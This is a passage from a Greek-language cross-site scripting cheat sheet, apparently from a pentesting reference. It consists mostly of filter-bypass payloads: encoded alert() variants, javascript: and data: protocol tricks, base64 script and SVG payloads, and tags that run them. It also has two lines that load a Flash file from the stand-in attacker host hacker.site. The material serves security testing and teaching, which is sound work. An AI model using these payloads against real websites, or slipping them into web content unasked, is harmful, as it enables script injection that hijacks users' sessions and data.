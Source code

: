 ```javascript
<a href="jav&#x61script:alert(3)">a</a>
```
**Σημειώστε ότι η κωδικοποίηση URL θα λειτουργήσει επίσης:**
```python
<a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```
**Παράκαμψη εσωτερικού γεγονότος χρησιμοποιώντας κωδικοποίηση Unicode**
```javascript
//For some reason you can use unicode to encode "alert" but not "(1)"
<img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
<img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
```
### Ειδικά Πρωτόκολλα Μέσα στο attribute

Εκεί μπορείτε να χρησιμοποιήσετε τα πρωτόκολλα **`javascript:`** ή **`data:`** σε ορισμένα μέρη για να **εκτελέσετε αυθαίρετο JS κώδικα**. Ορισμένα θα απαιτούν αλληλεπίδραση του χρήστη και άλλα όχι.
```javascript
javascript:alert(1)
JavaSCript:alert(1)
javascript:%61%6c%65%72%74%28%31%29 //URL encode
javascript&colon;alert(1)
javascript&#x003A;alert(1)
javascript&#58;alert(1)
&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3aalert(1)
java        //Note the new line
script:alert(1)

data:text/html,<script>alert(1)</script>
DaTa:text/html,<script>alert(1)</script>
data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
data:text/html;charset=UTF-8,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```
**Μέρη όπου μπορείτε να εισάγετε αυτά τα πρωτόκολλα**

**Γενικά**, το `javascript:` πρωτόκολλο μπορεί να **χρησιμοποιηθεί σε οποιαδήποτε ετικέτα που δέχεται το χαρακτηριστικό `href`** και σε **τις περισσότερες** από τις ετικέτες που δέχονται το **χαρακτηριστικό `src`** (αλλά όχι `<img`)
```markup
<a href="javascript:alert(1)">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

//Special cases
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf
<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf
<iframe srcdoc="<svg onload=alert(4);>">
```